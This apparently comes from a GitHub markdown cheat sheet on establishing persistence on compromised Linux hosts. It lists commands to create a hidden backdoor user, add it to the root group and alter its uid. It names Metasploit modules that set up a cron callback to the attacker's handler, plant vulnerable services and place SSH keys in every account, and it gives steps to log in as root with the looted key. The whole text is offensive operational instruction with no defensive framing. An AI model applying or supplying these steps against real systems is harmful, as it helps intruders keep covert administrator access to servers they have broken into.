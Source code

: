 # Establishing Persistence on Linux

**Creating backdoor user**  
This will only work if the target server is running SSH  
1. Open Shell
2. ```/bin/bash -i```
3. ```useradd -m (name) -s /bin/bash```
4. ```passwd (name)```

**Add user to root group**  
```usermod -aG root (name)```

**Update when the username was created**  
usermod -u 15 (name)

### Modules
1. **exploit/linux/local/cron_persistence** - sets up cron job that connects to your handler  
2. **exploit/linux/local/service_persistence** - Creates vulnerable services for exploiting
3. **post/linux/manage/sshkey_persistence** - sets up a private and public ssh key pair and will add it to home directory of all accounts
- set CREATESSHFOLDER true
- This will give you the ssh key in the loot command
1. copy contents
2. exit of out MSF console
3. create file called ssh_key
4. chmod 0400 ssh_key
5. ssh -i ssh_key root@(target IP address)
